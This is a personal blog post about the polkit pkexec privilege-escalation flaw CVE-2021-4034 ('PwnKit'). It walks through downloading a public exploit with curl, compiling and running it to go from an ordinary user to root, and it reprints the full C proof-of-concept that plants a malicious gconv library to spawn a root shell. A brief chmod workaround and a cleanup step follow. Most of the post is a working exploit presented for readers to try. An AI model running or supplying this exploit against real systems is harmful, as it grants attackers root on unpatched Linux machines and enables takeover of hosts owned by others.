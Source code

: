 ```yaml
---
title: "Local-Privilege-Escalation-in-polkits-pkexec"
date: "2022-01-26T06:21:12-05:00"
Tags: ["vuln", "cve"]
Categories: ["security"] 
---
```

The big news in Linux today is the [Local Privilege Escalation in polkit's pkexec (CVE-2021-4034)](https://seclists.org/oss-sec/2022/q1/90), with [Arstechnica](https://arstechnica.com/information-technology/2022/01/a-bug-lurking-for-12-years-gives-attackers-root-on-every-major-linux-distro/) leading with, "_A bug lurking for 12 years gives attackers root on every major Linux distro - It's likely only a matter of time before PwnKit is exploited in the wild_" Needless to say, I immediately had to try it out on my own, so I got on one of my [Debian GNU/Linux](https://debian.org) servers to test it. Spoiler: it worked, here's how you can try it too.

## Howto

```
# id
uid=1000(fak3r) gid=1000(fak3r) groups=1000(fak3r),27(sudo)
$ curl -O https://haxx.in/files/blasty-vs-pkexec.c
$ gcc blasty-vs-pkexec.c -o pkexec-poc
$ ./pkexec-poc
[~] compile helper..
[~] maybe get shell now?
# id
uid=0(root) gid=0(root) groups=0(root),27(sudo),1000(fak3r)
# 
```

## Workaround fix (temporary)

While this is bad, here's a quick workaround, remove the sticky bit from the binary - it's certainly untested, and will be null once a patch is released:

```
chmod 755 /usr/bin/pkexec
```

## Cleanup

To remove the downloaded, and generated, code:

```
rm -rf pkexec-poc blasty-vs-pkexec.c GCONV_PATH\=. lol payload.*
```

## Code

In case the C code is pulled, here's it is, again, I grabbed it from [haxx.in](https://haxx.in/files/blasty-vs-pkexec.c).

```
/*
 * blasty-vs-pkexec.c -- by blasty <peter@haxx.in> 
 * ------------------------------------------------
 * PoC for CVE-2021-4034, shout out to Qualys
 *
 * ctf quality exploit
 *
 * bla bla irresponsible disclosure
 *
 * -- blasty // 2022-01-25
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <fcntl.h>

void fatal(char *f) {
    perror(f);
    exit(-1);
}

void compile_so() {
    FILE *f = fopen("payload.c", "wb");
    if (f == NULL) {
        fatal("fopen");
    }

    char so_code[]=
        "#include <stdio.h>\n"
        "#include <stdlib.h>\n"
        "#include <unistd.h>\n"
        "void gconv() {\n"
        "  return;\n"
        "}\n"
        "void gconv_init() {\n"
        "  setuid(0); seteuid(0); setgid(0); setegid(0);\n"
        "  static char *a_argv[] = { \"sh\", NULL };\n"
        "  static char *a_envp[] = { \"PATH=/bin:/usr/bin:/sbin\", NULL };\n"
        "  execve(\"/bin/sh\", a_argv, a_envp);\n"
        "  exit(0);\n"
        "}\n";

    fwrite(so_code, strlen(so_code), 1, f);
    fclose(f);

    system("gcc -o payload.so -shared -fPIC payload.c");
}

int main(int argc, char *argv[]) {
    struct stat st;
    char *a_argv[]={ NULL };
    char *a_envp[]={
        "lol",
        "PATH=GCONV_PATH=.",
        "LC_MESSAGES=en_US.UTF-8",
        "XAUTHORITY=../LOL",
        NULL
    };

    printf("[~] compile helper..\n");
    compile_so();

    if (stat("GCONV_PATH=.", &st) < 0) {
        if(mkdir("GCONV_PATH=.", 0777) < 0) {
            fatal("mkdir");
        }
        int fd = open("GCONV_PATH=./lol", O_CREAT|O_RDWR, 0777); 
        if (fd < 0) {
            fatal("open");
        }
        close(fd);
    }

    if (stat("lol", &st) < 0) {
        if(mkdir("lol", 0777) < 0) {
            fatal("mkdir");
        }
        FILE *fp = fopen("lol/gconv-modules", "wb");
        if(fp == NULL) {
            fatal("fopen");
        }
        fprintf(fp, "module  UTF-8//    INTERNAL    ../payload    2\n");
        fclose(fp);
    }

    printf("[~] maybe get shell now?\n");

    execve("/usr/bin/pkexec", a_argv, a_envp);
}
```
